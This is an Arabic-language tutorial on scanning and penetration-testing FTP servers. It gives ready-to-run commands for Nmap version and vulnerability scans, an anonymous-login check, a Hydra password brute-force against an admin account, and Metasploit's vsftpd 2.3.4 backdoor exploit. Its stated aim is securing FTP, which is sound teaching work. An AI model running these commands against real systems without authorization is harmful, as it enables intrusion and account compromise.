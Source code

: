 # 🔍 **فحص FTP - FTP Scanning**

## ✅ **ما هو FTP؟**

**FTP (File Transfer Protocol)** هو بروتوكول يستخدم لنقل الملفات بين جهاز المستخدم والخادم عبر الشبكة. يعمل عادةً على **المنفذ 21**، ولكن يمكنه استخدام منافذ أخرى عند تشغيله في **وضع Active أو Passive**.

✅ **أهمية فحص FTP؟**  
📌 معرفة ما إذا كان FTP يعمل على الخادم  
📌 اكتشاف الإعدادات الخاطئة مثل السماح بالوصول المجهول (**Anonymous Login**)  
📌 التحقق من وجود **ثغرات معروفة** في خادم FTP  
📌 تحديد إمكانية استخدام FTP للوصول إلى بيانات حساسة

---

# 🛠️ **أدوات فحص FTP بالتفصيل**

## **1️⃣ اكتشاف خادم FTP باستخدام [[Nmap]]**

📌 **الهدف:** معرفة ما إذا كان خادم FTP يعمل، وإصدار البرنامج، واكتشاف أي ثغرات محتملة.

🔹 **فحص ما إذا كان المنفذ 21 مفتوحًا:**

```bash
nmap -p 21 target.com
```

📌 **إذا ظهر "open"، فهذا يعني أن FTP يعمل على هذا الخادم.**

🔹 **الحصول على إصدار خادم FTP:**

```bash
nmap -p 21 -sV target.com
```

📌 **يعرض إصدار FTP مثل "vsftpd 3.0.3" أو "ProFTPD".**

🔹 **البحث عن ثغرات أمنية في FTP:**

```bash
nmap --script=ftp-vuln* target.com
```

📌 **يحدد إذا كان الخادم به ثغرات مثل CVE-2011-2523 في vsftpd.**

✅ **الخلاصة:**  
**Nmap** هو أداة قوية لمعرفة **ما إذا كان FTP نشطًا، وما هو إصداره، وهل به ثغرات أمنية؟**

---

## **2️⃣ تجربة تسجيل الدخول كمجهول (Anonymous Login)**

📌 بعض خوادم FTP تسمح بتسجيل الدخول بدون اسم مستخدم أو كلمة مرور!

🔹 **محاولة تسجيل الدخول عبر FTP:**

```bash
ftp target.com
```

ثم إدخال:

```
Name: anonymous
Password: anonymous
```

📌 **إذا نجح الدخول، فهذا يشير إلى ضعف أمني خطير، حيث يمكن لأي شخص تحميل أو تنزيل الملفات.**

✅ **الخلاصة:**  
يجب **التحقق مما إذا كان الخادم يسمح بتسجيل الدخول كمجهول**، لأنه يسمح بسرقة الملفات.

---

## **3️⃣ اختبار قوة كلمات المرور باستخدام [[Hydra]]**

📌 **الهدف:** تجربة تسجيل الدخول باستخدام كلمات مرور ضعيفة.

🔹 **تنفيذ هجوم تخمين كلمات المرور:**

```bash
hydra -l admin -P passwords.txt ftp://target.com
```

📌 **يحاول تسجيل الدخول باستخدام قائمة كلمات مرور موجودة في "passwords.txt".**

✅ **الخلاصة:**  
**Hydra** يساعد في **اختبار مدى قوة كلمات مرور FTP**، مما يساعد في تحديد الحسابات الضعيفة.

---

## **4️⃣ تحليل إعدادات FTP باستخدام [[Metasploit]]**

📌 **الهدف:** البحث عن ثغرات أمنية أو إعدادات خاطئة في خادم FTP.

🔹 **فتح Metasploit والبحث عن ثغرات FTP:**

```bash
msfconsole
search ftp
```

📌 **يظهر قائمة بالثغرات المحتملة في خوادم FTP.**

🔹 **استخدام وحدة استغلال مثل vsftpd 2.3.4 backdoor:**

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST target.com
exploit
```

📌 **إذا كان الخادم يعاني من هذه الثغرة، فسيمنحك وصولًا مباشرًا.**

✅ **الخلاصة:**  
**Metasploit** يساعد في **البحث عن ثغرات واستغلالها في خوادم FTP، مما يسمح بفهم المخاطر الأمنية المحتملة.**

---

# 🚀 **📌 خطوات عملية لاختبار اختراق FTP**

✅ **1️⃣ اكتشاف ما إذا كان منفذ FTP مفتوحًا:**

```bash
nmap -p 21 -sV target.com
```

✅ **2️⃣ اختبار تسجيل الدخول المجهول:**

```bash
ftp target.com
```

ثم إدخال:

```
Name: anonymous
Password: anonymous
```

✅ **3️⃣ اختبار قوة كلمات المرور على FTP:**

```bash
hydra -l admin -P passwords.txt ftp://target.com
```

✅ **4️⃣ البحث عن ثغرات FTP تلقائيًا:**

```bash
nmap --script=ftp-vuln* target.com
```

✅ **5️⃣ استغلال الثغرات باستخدام Metasploit:**

```bash
msfconsole
search ftp
```

---

# 🎯 **📌 الخلاصة النهائية**

📌 فحص FTP هو تحليل **الخوادم التي تعمل ببروتوكول FTP** لاكتشاف المنافذ المفتوحة، إصدار الخادم، الإعدادات الخاطئة، والثغرات الأمنية.  
📌 الأدوات المستخدمة تشمل **Nmap, Hydra, Metasploit, وFTP Client**.  
📌 الهدف هو **التأكد من تأمين FTP ومنع تسجيل الدخول المجهول والثغرات الأمنية.**

🔥 **ابدأ بالتجربة الآن! 🚀**